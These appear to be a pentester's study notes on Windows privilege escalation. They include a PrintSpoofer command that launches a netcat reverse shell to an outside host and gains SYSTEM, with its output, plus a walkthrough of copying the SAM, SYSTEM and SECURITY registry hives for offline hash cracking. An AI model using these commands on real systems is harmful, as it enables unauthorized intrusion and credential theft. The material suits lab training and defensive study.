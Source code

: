 # Vulnerabilities
## Rogue Potato

## Juicy/Lovely Potato

## PrintSpoofer [https://github.com/itm4n/PrintSpoofer]
Service Account (IIS/MSSQL) got privilge SeImpersonatePrivilege 

Create a reverse shell:
```powershell
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

Netcat listener:

C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```





# Passwords Attacks
## Attacking SAM
With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline. Doing this offline will ensure we can continue to attempt our attacks without maintaining an active session with a target. Let's walk through this process together using a target host. Feel free to follow along by spawning the target box in this section.
Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:
Registry Hive 	Description
hklm\sam 	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.
hklm\system 	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
hklm\security 	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.
